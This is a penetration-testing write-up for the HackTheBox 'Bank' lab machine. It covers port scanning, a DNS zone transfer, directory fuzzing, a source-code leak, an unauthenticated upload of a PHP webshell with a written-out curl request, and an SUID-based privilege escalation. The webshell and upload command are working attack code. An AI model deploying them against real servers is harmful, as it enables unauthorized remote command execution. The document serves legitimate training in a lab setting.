

# HackTheBox - Bank


<br>

## Table of Contents

- [Enumeration](#Enumeration)
    - [Portscan](#Portscan)
    - [Webserver](#Webserver)
    - [DNS Zone-Transfer](#DNS-Zone-Transfer)
    - [Webserver](#Webserver)
- [Foothold](#Foothold)
    - [Source Code Leakage](#Source-Code-Leakage)
    - [Unauthenticated File Upload](#Unauthenticated-File-Upload)
    - [User Flag](#User-Flag)
- [Privilege Escalation](#Privilege-Escalation)
    - [SUID Abuse](#SUID-Abuse)
    - [Root Flag](#Root-Flag)

<br>
<br>

## Enumeration

### Portscan

I started as usual with a portscan.

__Command:__ `nmap -p- -sV -sC -T4 <IP>`


We can see an open web server on port 80, a DNS server on port 53 and an SSH server on port 22.

<br>

### Webserver

I accessed the web server under the IP and saw an Apache2 default page.


I went through my enumeration checklist for web servers and found nothing.

<br>

### DNS Zone-Transfer

So I guessed the name and tried to get smarter from the DNS server.

Here is a successful zone transfer.

__Command:__ `dig axfr bank.htb @<IP>`


### Webserver

I entered __bank.htb__ in my `/etc/hosts` file and called the domain.


Now I saw a login page and enumerated the server using the domain name again.

__Command:__ `ffuf -w <WORDLIST> -u http://bank.htb/FUZZ -ic`


<br>
<br>

## Foothold

### Source Code Leakage

In the file `support.php` I noticed that the source code is disclosed before the redirect.


An interesting HTTP comment caught my interest which says that `.htb` file endings are also executed as PHP.

<br>

### Unauthenticated File Upload

So I created a simple webshell named `shell.htb`...

```
<?php
if(isset($_GET['cmd'])) {
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
}
?>
```

... and uploaded it with a __curl__ command.

```bash
curl -X POST http://bank.htb/support.php -F "title=something1" -F "message=something des Problems" -F "fileToUpload=@./shell.htb" -F "submitadd=" -H "Content-Type: multipart/form-data"
```

<br>

### User Flag

The webshell was then accessible under `/uploads/` and from there I established a reverse shell.


I operated as user `www-data` and was able to get the user flag in the home folder of user `chris`.


<br>
<br>

## Privilege Escalation

### SUID Abuse

The privilege escalation was done quickly.

When searching for files with __SUID__ set, the following binary caught my eye:

__Command:__ `find / -perm /4000 2>>/dev/null`




<br>

### Root Flag

A simple execution of the file brought me a shell as `root` and I got the final flag.


